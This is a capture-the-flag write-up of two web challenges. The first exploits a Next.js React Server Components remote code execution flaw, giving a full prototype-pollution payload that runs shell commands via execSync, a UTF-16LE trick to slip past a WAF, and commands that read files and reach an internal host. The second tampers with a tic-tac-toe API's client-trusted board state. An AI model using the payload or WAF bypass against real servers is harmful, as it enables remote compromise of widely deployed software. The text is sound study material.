


## Flight Risk


**Category:** Web
**Vulnerability:** CVE-2025-55182 (Next.js RSC Remote Code Execution)
**Target:** `http://chall.ehax.in:4269/`

### Reconnaissance

Visiting the target, we see a single-page Next.js app with a name input form. Checking the response headers:

```
X-Powered-By: Next.js
x-nextjs-cache: HIT
x-nextjs-prerender: 1
```

Inspecting the page HTML reveals `self.__next_f`, confirming this is using the **App Router** (not the legacy Pages Router), which is the attack surface for CVE-2025-55182.

We extract the **Server Action ID** from the bundled JavaScript:

```
GET /_next/static/chunks/app/page-428009e448e772a0.js
```

```javascript
let s = createServerReference(
    "7fc5b26191e27c53f8a74e83e3ab54f48edd0dbd",
    callServer, ...
);
```

### Vulnerability — CVE-2025-55182

CVE-2025-55182 is a **prototype pollution → RCE** vulnerability in Next.js App Router's React Server Components (RSC) action handler. By sending a crafted multipart form body with a malicious RSC payload to any App Router endpoint, an attacker can execute arbitrary Node.js code server-side.

The payload abuses the `__proto__` chain in the RSC response parser to inject JavaScript into the server's `_prefix` evaluation context:

```json
{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "_response": {
    "_prefix": "var res = process.mainModule.require('child_process').execSync('<cmd>').toString('base64'); throw Object.assign(new Error('x'), {digest: res});",
    "_formData": { "get": "$1:constructor:constructor" }
  }
}
```

The command output is base64-encoded and returned inside the `digest` field of the thrown error response.

**WAF Bypass:** The challenge has a WAF inspecting the payload. Encoding the multipart part 0 as `UTF-16LE` (with `Content-Type: text/plain; charset=utf-16le`) causes the WAF to fail to parse the payload while Next.js still processes it correctly.

### Exploitation

#### Step 1 — Confirm RCE

```bash
python CVE-2025-55182.py -u http://chall.ehax.in:4269/ -c "id" --bypass
```

```
[VULN] http://chall.ehax.in:4269/ >>> RCE SUCCESS
       Output: uid=1000(node) gid=1000(node) groups=1000(node),1000(node)
```

RCE confirmed as user `node`.

#### Step 2 — Enumerate the filesystem

```bash
python CVE-2025-55182.py -u http://chall.ehax.in:4269/ -c "ls /app" --bypass
```

```
node_modules
package.json
server.js
vault.hint
```

The file `vault.hint` stands out immediately.

#### Step 3 — Read vault.hint

Direct `cat` was blocked by the WAF. Using `xxd` instead:

```bash
python CVE-2025-55182.py -u http://chall.ehax.in:4269/ -c "xxd /app/vault.hint" --bypass
```

```
00000000: 696e 7465 726e 616c 2d76 6175 6c74 3a39  internal-vault:9
00000010: 3030 390a                                009.
```

Content: **`internal-vault:9009`**

An internal HTTP service is running on hostname `internal-vault` at port `9009`, not accessible from the outside.

#### Step 4 — Access the internal vault via SSRF-through-RCE

```bash
python CVE-2025-55182.py -u http://chall.ehax.in:4269/ -c "wget -qO- http://internal-vault:9009" --bypass
```

```html
<title>Directory listing for /</title>
...
<li><a href="flag.txt">flag.txt</a></li>
```

#### Step 5 — Retrieve the flag

```bash
python CVE-2025-55182.py -u http://chall.ehax.in:4269/ -c "wget -qO- http://internal-vault:9009/flag.txt" --bypass
```



## tictactoe 
## Reconnaissance

The game presents a standard 3×3 Tic-Tac-Toe board backed by a **Minimax** AI — impossible to beat through normal gameplay. The key hint is "break the **protocol**", not the game — pointing toward API manipulation rather than UI interaction.

Opening DevTools → **Network** tab, making a move captures the following request:

```
POST https://ctf-challenge-1-beige.vercel.app/api
Content-Type: application/json

{
  "mode": "3x3",
  "state": [
    [1, 0, 0],
    [0, 0, 0],
    [0, 0, 0]
  ]
}
```

- `mode` — board size
- `state` — 3×3 matrix: `1` = player (X), `0` = empty, `2` = AI (O)

The server responds with the AI's next move. No session token or server-side game state — the **entire board state is trusted from the client**.

## Exploitation

### Step 1 — Direct State Manipulation (3×3)

Sending a pre-won board state for the player:

```javascript
fetch('/api', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        "mode": "3x3",
        "state": [[1,1,1],[0,0,0],[0,0,0]]
    })
}).then(r => r.json()).then(console.log);
```

**Response:**
```json
{
  "message": "Oh, you forced an 'X' into my memory? Cute. But the flag only
              releases for a valid dimensional shift.",
  "cheat": true
}
```

The server has anti-cheat logic for 3×3. However, the response leaks a critical hint: **"dimensional shift"** → manipulate the `mode` parameter.

---

### Step 2 — Fuzzing the `mode` Parameter

| mode | Result |
|------|--------|
| `"1x1"` | Error / no response |
| `"5x5"` | Error / no response |
| `"4x4"` | **`4x4_MODE_ACTIVE: AI sensors blind in ghost sectors.`** ✓ |

The server accepts `"4x4"` and explicitly announces that **ghost sectors** (the extended row and column at index 3) are outside the AI's validation range.

---

### Step 3 — Winning via the Ghost Column

Attempting to win on **row 4** (horizontal) → still blocked.

Attempting to win on **column 4** (vertical ghost sector):

```javascript
fetch('/api', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        "mode": "4x4",
        "state": [
            [0, 0, 0, 1],
            [0, 0, 0, 1],
            [0, 0, 0, 1],
            [0, 0, 0, 1]
        ]
    })
})
.then(r => {
    console.log("Status:", r.status);
    return r.text();          // đọc raw text trước, không parse JSON
})
.then(text => {
    console.log("Raw response:", text);
})
.catch(err => console.error("Error:", err));
```

**Response:**
